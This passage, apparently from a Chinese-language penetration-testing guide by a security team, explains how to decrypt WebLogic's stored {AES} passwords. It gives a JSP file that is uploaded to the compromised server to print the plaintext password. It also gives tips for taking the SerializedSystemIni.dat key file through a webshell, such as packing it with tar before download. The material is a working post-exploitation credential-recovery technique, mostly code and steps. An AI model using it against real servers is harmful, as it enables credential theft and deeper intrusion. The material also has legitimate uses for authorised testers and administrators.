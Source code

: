 只需要把要解密的密文写在jsp文件中即可，上传服务器，访问后即得明文。

![image](images/image(15).png)

代码如下：

```
<%@page pageEncoding="utf-8"%>
<%@page import="weblogic.security.internal.*,weblogic.security.internal.encryption.*"%>
<%
   EncryptionService es = null;
   ClearOrEncryptedService ces = null;
    String s = null;
    s="{AES}yvGnizbUS0lga6iPA5LkrQdImFiS/DJ8Lw/yeE7Dt0k=";
    es = SerializedSystemIni.getEncryptionService();
    if (es == null) {
       out.println("Unable to initialize encryption service");
        return;
    }
    ces = new ClearOrEncryptedService(es);
    if (s != null) {
        out.println("\nDecrypted Password is:" + ces.decrypt(s));
    }
%>
```

# 注意事项

1、如果AES加密后的密码为：`{AES}Nu2LEjo0kxMEd4G5L9bYLE5wI5fztbgeRpFec9wsrcQ\=` 破解时需要把后面的\给去掉，不然会执行报错。

2、有时候用webshell下载密钥`SerializedSystemIni.dat`文件后可能会和源文件不一致，从而导致解密失败，主要是因为`SerializedSystemIni.dat`文件为二进制文件，直接使用浏览器下载可能遭到破坏。

这时可以使用webshell执行tar命令，将`SerializedSystemIni.dat`文件打包后再下载或者使用Burpsuite的copy to file来进行保存。

一般来说`SerializedSystemIni.dat`文件为64字节，如果大小和这个不符，那么你下载的密钥可能不是原始文件。


# 参考资料

weblogic密码加解密：https://blog.csdn.net/rznice/article/details/50906335

weblogic的boot.properties中密码破解：http://www.itpub.net/thread-1421403-1-1.html

Weblogic解密脚本（无需weblogic环境）：https://blog.csdn.net/qq_27446553/article/details/51013151

我们应该了解的JNDI数据源配置：https://www.freebuf.com/news/193304.html

破解weblogic(数据库)密码：https://www.cnblogs.com/holdon521/p/4110750.html

解密JBoss和Weblogic数据源连接字符串和控制台密码：http://drops.xmd5.com/static/drops/tips-349.html

解密WebLogic的密码：http://bobao.360.cn/learning/detail/337.html

# 关于我们

对web安全感兴趣的小伙伴可以关注团队官网: http://www.TideSec.com 或关注公众号：

<div align=center><img src=images/ewm.png width=30% ></div>


